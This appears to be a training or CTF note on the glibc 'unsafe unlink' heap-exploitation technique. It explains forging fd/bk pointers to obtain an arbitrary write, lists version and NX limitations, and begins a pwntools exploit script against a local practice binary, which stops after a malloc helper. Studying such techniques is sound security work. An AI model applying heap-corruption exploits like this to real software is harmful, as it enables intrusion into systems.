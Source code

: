 ### Approach 
- Force the unlink macro to process designer-controlled fd/bk pointers, leading to a reflected write. 
### Further use 


It is possible to use a ***prev_size field of 0*** and ***craft the counterfeit fd & bk pointers*** within chunk. The same technique can be applied to forward consolidation but requires stricter heap control.

### Limitations 


This technique can only be leveraged against ***GLIBC versions <= 2.3.3***, safe unlinking was introduced in GLIBC version 2.3.4 in 2004 and GLIBC versions that old are not common. This technique was originally leveraged against platforms without NX/DEP and is described as such here. In 2003 AMD introduced hardware NX support to their consumer desktop processors, followed by Intel in 2004, systems without this protection are not common.


### Script


shell.py
```python
#!/usr/bin/env python3
from pwn import *


context.log_level = 'debug'
context.binary = elf = ELF('./unsafe_unlink', checksec=False)

libc = ELF('../.glibc/glibc_2.23_unsafe-unlink/libc.so.6', checksec=False)
#libc = elf.libc

gs = """
b *main
b *main+265
b *main+382
b *main+656
b *main+717
b *main+787
"""

index = 0

def info(mes):
    return log.info(mes)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(size):
    global index
    
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.recvuntil(b'> ')
    
    index += 1
    return index - 1

```